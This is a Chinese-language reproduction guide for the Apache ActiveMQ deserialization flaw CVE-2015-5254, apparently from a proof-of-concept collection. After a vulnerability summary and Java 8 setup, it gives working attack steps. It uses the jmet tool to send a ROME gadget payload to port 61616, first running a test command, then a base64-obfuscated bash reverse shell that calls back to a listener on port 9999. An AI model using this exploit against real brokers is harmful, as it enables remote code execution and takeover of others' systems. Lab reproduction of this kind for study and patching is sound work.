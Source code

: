# Apache ActiveMQ 反序列化漏洞 (CVE-2015-5254)

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

```
Apache ActiveMQ 5.13.0之前5.x版本
```

## 环境配置

### 安装jdk

查看java版本，如果是java 11需要切换到java 8

```
java -version
```

安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64

```
sudo apt install openjdk-8-jdk
```

配置环境变量，添加jdk安装路径

```
sudo vim ~/.bashrc

# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

### 切换jdk版本

采用update-alternatives命令进行版本切换

 /usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合

```
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
```

切换jdk

```
sudo update-alternatives --config java
```

![image-20220221132209838](./images/202202211347913.png)

再次查看java版本，切换成功

![image-20220221132246597](./images/202202211347914.png)

### 漏洞复现

下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/vuln**的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
```

![image-20220221133654012](./images/202202211347915.png)

访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1

![image-20220221133733242](./images/202202211347916.png)

点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc

![image-20220221133952983](./images/202202211347917.png)

![2](./images/202202211347918.png)也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
```

![image-20220221134243490](./images/202202211347919.png)

查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1

![image-20220221134313545](./images/202202211347920.png)

监听9999端口，点击消息队列会触发命令执行，反弹Shell

![image-20220221134508900](./images/202202211347921.png)

